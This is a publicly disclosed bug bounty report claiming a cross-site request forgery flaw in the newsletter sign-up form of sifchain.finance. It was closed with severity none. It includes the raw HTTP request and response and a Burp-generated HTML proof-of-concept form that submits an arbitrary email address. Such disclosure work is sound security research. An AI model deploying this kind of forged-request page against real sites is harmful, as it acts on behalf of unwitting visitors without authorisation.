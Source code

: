 # CSRF in newsletter form

## Report Details
- **Report ID**: 1190705
- **URL**: https://hackerone.com/reports/1190705
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-05-10T15:09:21.624Z
- **Disclosed**: 2021-12-09T17:50:38.477Z

## Reporter
- **Username**: ph0b0s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
Hi,

i can perform csrf attack on victim on newsletter to receive updates because you dont have csrf protection "csrf token" in request



Request:

POST / HTTP/2
Host: sifchain.finance
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

EMAIL=gdfgdfg%40dsg.com&_mc4wp_honeypot=&_mc4wp_timestamp=1620658126&_mc4wp_form_id=204&_mc4wp_form_element_id=mc4wp-form-1




Response:

HTTP/2 200 OK
Date: Mon, 10 May 2021 14:52:32 GMT
Content-Type: text/html; charset=UTF-8
Strict-Transport-Security: max-age=15552000; includeSubDomains
Vary: Accept-Encoding
X-Hacker: If you're reading this, you should visit automattic.com/jobs and apply to join the fun, mention this header.
Host-Header: WordPress.com
Link: <https://sifchain.finance/wp-json/>; rel="https://api.w.org/"
Link: <https://sifchain.finance/wp-json/wp/v2/pages/2682>; rel="alternate"; type="application/json"
Link: <https://wp.me/Pcru4n-Hg>; rel=shortlink
X-Ac: 3.mxp _atomic_ams
Cf-Cache-Status: DYNAMIC
Cf-Request-Id: 09f85d032c0000374433a18000000001
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
Cf-Ray: 64d3fde509573744-MXP

<!DOCTYPE html>
<html lang="en-US" class="">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="profile" href="http://gmpg.org/xfn/11">
    <link rel="pingback" href="https://sifchain.finance/xmlrpc.php">


[Snipped parts]


<div class="mc4wp-response"><div class="mc4wp-alert mc4wp-success" role="alert"><p>Thank you, your sign-up request was successful! Please check your email inbox to confirm.</p></div>



PoC:

  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://sifchain.finance/" method="POST">
      <input type="hidden" name="EMAIL" value="any&#64;anyy&#46;com" />
      <input type="hidden" name="&#95;mc4wp&#95;honeypot" value="" />
      <input type="hidden" name="&#95;mc4wp&#95;timestamp" value="1620658126" />
      <input type="hidden" name="&#95;mc4wp&#95;form&#95;id" value="204" />
      <input type="hidden" name="&#95;mc4wp&#95;form&#95;element&#95;id" value="mc4wp&#45;form&#45;1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


1. save as .html file
2. open in browser chrome or firefox

and as you can see "Thank you, your sign-up request was successful! Please check your email inbox to confirm"


Cheers,
Ph0b0s

## Impact

CSRF

## Attachments
No attachments
